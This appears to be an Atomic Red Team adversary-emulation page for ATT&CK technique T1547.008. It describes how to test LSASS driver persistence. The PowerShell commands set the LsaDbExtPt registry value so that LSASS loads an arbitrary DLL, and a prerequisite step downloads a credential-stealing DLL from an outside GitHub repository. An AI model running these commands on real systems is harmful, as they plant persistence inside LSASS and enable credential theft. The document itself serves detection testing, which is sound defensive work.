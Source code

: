 # T1547.008 - Boot or Logon Autostart Execution: LSASS Driver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/008)
<blockquote>Adversaries may modify or add LSASS drivers to obtain persistence on compromised systems. The Windows security subsystem is a set of components that manage and enforce the security policy for a computer or domain. The Local Security Authority (LSA) is the main component responsible for local security policy and user authentication. The LSA includes multiple dynamic link libraries (DLLs) associated with various other security functions, all of which run in the context of the LSA Subsystem Service (LSASS) lsass.exe process.(Citation: Microsoft Security Subsystem)

Adversaries may target LSASS drivers to obtain persistence. By either replacing or adding illegitimate drivers (e.g., [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574)), an adversary can use LSA operations to continuously execute malicious payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt](#atomic-test-1---modify-registry-to-load-arbitrary-dll-into-lsass---lsadbextpt)


<br/>

## Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt
The following Atomic will modify an undocumented registry key that may be abused to load a arbitrary DLL into LSASS. 

Upon execution, the registry key will be modified and a value will contain the path to the DLL. 
Reference: https://blog.xpnsec.com/exploring-mimikatz-part-1/ and source https://github.com/oxfemale/LogonCredentialsSteal
Note that if any LSA based protection is enabled, this will most likely not be successful with LSASS.exe loading the DLL.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ecef16d-d289-46b4-917b-0dba6dc81cf1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Module to be loaded into LSASS | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;lsass_lib.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS" -Name "LsaDbExtPt" -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: lsass_lib.dll must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/oxfemale/LogonCredentialsSteal/raw/53e74251f397ddeab2bd1348c3ff26d702cfd836/lsass_lib/x64/Release/lsass_lib.dll" -UseBasicParsing -OutFile "#{dll_path}"
```




<br/>
